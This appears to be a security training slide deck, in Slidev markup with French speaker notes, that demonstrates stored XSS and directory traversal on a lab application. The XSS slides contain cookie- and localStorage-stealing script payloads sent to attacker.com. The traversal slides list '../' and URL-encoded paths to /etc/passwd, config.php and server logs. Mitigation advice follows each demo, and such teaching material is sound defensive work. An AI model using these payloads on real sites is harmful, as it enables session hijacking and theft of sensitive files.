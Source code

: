 ```yaml
---
layout: section
---
```


# Live Demonstrations

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>

---
layout: default
---

# Stored XSS Attack

<div class="grid grid-cols-2 gap-8">
  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Advanced Payload</h3>

```js
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', '<http://attacker.com/?cookie=>' 
            + document.cookie);
  xhr.send();

  document.body.style.backgroundColor = 'red';
  alert('XSS Démonstration');
</script>
```
  </div>

  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Attack Process</h3>
    <div class="space-y-4">
      <p>1. Navigate to "Stored XSS Blog"</p>
      <p>2. Post a normal message first</p>
      <p>3. Submit XSS payload</p>
      <p>4. Observe execution on each visit</p>
    </div>
  </div>
</div>

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>

<!--
### Description

Le XSS stocké est une vulnérabilité où du code malveillant est stocké dans la base de données et exécuté à chaque fois qu'un utilisateur visite la page affectée.

### Étapes de la démonstration

1. **Accès à la vulnérabilité**
    - Naviguer vers "Cross-Site Scripting - Stored (Blog)"
    - Observer l'interface du blog
2. **Test de fonctionnement normal**
    
    ```
    Message : Hello World!
    
    ```
    
    - Le message s'affiche normalement
    - Montrer qu'il est stocké en rafraîchissant la page
3. **Exploitation**
    
    ```jsx
    <script>
      // Vol de cookies
      var xhr = new XMLHttpRequest();
      xhr.open('GET', '<http://attacker.com/?cookie=>' + document.cookie);
      xhr.send();
    
      // Effet visuel pour la démo
      document.body.style.backgroundColor = 'red';
      alert('XSS Démonstration');
    </script>
    
    ```
    
    ```jsx
    <script>
      // Récupérer les données de l'utilisateur
      var userData = {
        url: window.location.href,
        userAgent: navigator.userAgent,
        cookies: document.cookie,
        localStorage: JSON.stringify(localStorage),
        screenRes: `${window.screen.width}x${window.screen.height}`
      };
    
      // Afficher les informations volées
      alert("🚨 Données sensibles exposées:\n\n" + 
            "📍 URL: " + userData.url + "\n\n" + 
            "🔍 User-Agent: " + userData.userAgent + "\n\n" +
            "🍪 Cookies: " + userData.cookies + "\n\n" +
            "💾 LocalStorage: " + userData.localStorage + "\n\n" +
            "📱 Résolution: " + userData.screenRes);
    
      // Simuler l'envoi à un serveur malveillant
      var xhr = new XMLHttpRequest();
      xhr.open('GET', 'http://attacker.com/steal?' + new URLSearchParams(userData));
      xhr.send();
    
      // Effet visuel
      document.body.style.backgroundColor = 'red';
      document.body.innerHTML = '<h1 style="color:white;text-align:center;margin-top:50px">🚨 Votre système a été compromis 🚨</h1>';
    </script>
    ```
    

### Impacts potentiels

- Vol de session utilisateur
- Modification du contenu de la page
- Exécution de code arbitraire
- Redirection des utilisateurs
- Vol de données sensibles

### Mesures de protection

1. **Validation des entrées**
    - Filtrer les caractères spéciaux
    - Utiliser des listes blanches
2. **Échappement des sorties**
    
    ```php
    htmlspecialchars($userInput, ENT_QUOTES, 'UTF-8');
    
    ```
    
3. **Headers de sécurité**
    
    ```
    Content-Security-Policy: default-src 'self'
    X-XSS-Protection: 1; mode=block
    
    ```
-->

---
layout: default
---

# Directory Traversal

<div class="grid grid-cols-2 gap-8">
  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Target Files</h3>

```bash
# System Files
../../../etc/passwd
../../../etc/hosts
../../../etc/hostname

# Application Files
../../../var/www/html/config.php
../../../var/log/apache2/access.log
../../../etc/apache2/apache2.conf
```

  </div>

  <div>
    <h3 class="uppercase text-gray-400 tracking-wider mb-4">Exploitation Steps</h3>
    <div class="space-y-4">
      <p>1. Access "Directory Traversal - Files"</p>
      <p>2. Test normal file access</p>
      <p>3. Use path traversal sequences</p>
      <p>4. Access sensitive files</p>
    </div>
  </div>
</div>

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>

<!--
## Démo 2 : Directory Traversal

### Description

Le Directory Traversal permet à un attaquant d'accéder à des fichiers en dehors du répertoire web prévu, en utilisant des séquences comme "../" pour naviguer dans l'arborescence.

### Étapes de la démonstration

1. **Accès à la vulnérabilité**
    - Naviguer vers "Directory Traversal - Files"
    - Observer le comportement normal avec les fichiers autorisés
2. **Test de fichiers système**
    
    ```
    # Test basique
    ../../../etc/passwd
    
    # Version encodée URL
    ..%2F..%2F..%2Fetc%2Fpasswd
    
    # Autres fichiers intéressants
    ../../../etc/hosts
    ../../../etc/apache2/apache2.conf
    ../../../var/log/apache2/access.log
    ../../../var/www/html/config.php
    
    ```
    
3. **Analyse des résultats**
    - Observer le contenu des fichiers accessibles
    - Noter les permissions et les informations exposées
    - Identifier les risques potentiels

### Fichiers intéressants à explorer

1. **Fichiers système**
    - /etc/passwd (utilisateurs)
    - /etc/hosts (configuration réseau)
    - /etc/hostname
2. **Logs**
    - /var/log/apache2/access.log
    - /var/log/apache2/error.log
3. **Configuration**
    - /var/www/html/config.php
    - /etc/apache2/apache2.conf
    - /etc/php/php.ini

### Impacts potentiels

- Accès aux fichiers de configuration
- Fuite d'informations sensibles
- Exposition des logs système
- Divulgation de mots de passe/clés
- Cartographie du système

### Mesures de protection

1. **Validation des chemins**
    
    ```php
    // Vérifier le chemin final
    $finalPath = realpath($userInput);
    if (strpos($finalPath, '/var/www/allowed') !== 0) {
        die('Accès interdit');
    }
    
    ```
    
2. **Restrictions d'accès**
    - Utiliser chroot
    - Limiter les permissions
    - Implémenter des listes blanches
3. **Configuration serveur**
    
    ```
    <Directory />
        Options -Indexes
        AllowOverride None
        Order allow,deny
        Deny from all
    </Directory>
    
    ```
    

### Bonnes pratiques générales

1. **Principe du moindre privilège**
    - Limiter les permissions des utilisateurs
    - Séparer les environnements
2. **Surveillance et logging**
    - Activer les logs détaillés
    - Monitorer les accès suspects
3. **Sécurité en profondeur**
    - Validations multiples
    - Contrôles à différents niveaux
-->

---
layout: default
---

# Security Impact

<div class="grid grid-cols-2 gap-8">
  <div class="bg-red-50/20 p-6 rounded-lg">
    <h3 class="font-bold mb-4">XSS Impact</h3>
    <div class="space-y-2">
      <p>• Session hijacking</p>
      <p>• Data theft</p>
      <p>• Page defacement</p>
      <p>• Malicious redirects</p>
    </div>
  </div>

  <div class="bg-blue-50/20 p-6 rounded-lg">
    <h3 class="font-bold mb-4">Directory Traversal Impact</h3>
    <div class="space-y-2">
      <p>• Configuration exposure</p>
      <p>• System information leak</p>
      <p>• Sensitive data access</p>
      <p>• Log file disclosure</p>
    </div>
  </div>
</div>

<div class="slide-number">
  <SlideCurrentNo />/<SlideTotalNo />
</div>

<!--
Du côté du XSS stocké, les conséquences sont particulièrement graves. Le vol de session permet à un attaquant de se connecter en tant que victime. Toutes les données personnelles peuvent être dérobées. La défiguration de page et les redirections malveillantes affectent l'intégrité du site. Le plus dangereux est que ces attaques touchent tous les visiteurs.

Concernant le Directory Traversal, l'impact se situe au niveau de la confidentialité des données. L'accès aux fichiers de configuration expose les paramètres sensibles du serveur. La fuite des logs permet de cartographier le système. Ces informations constituent une base solide pour des attaques plus sophistiquées.

Ces vulnérabilités montrent qu'une simple faille peut compromettre l'ensemble du système. C'est pourquoi il est crucial d'appliquer les bonnes pratiques de sécurité dès la conception de l'application.
-->
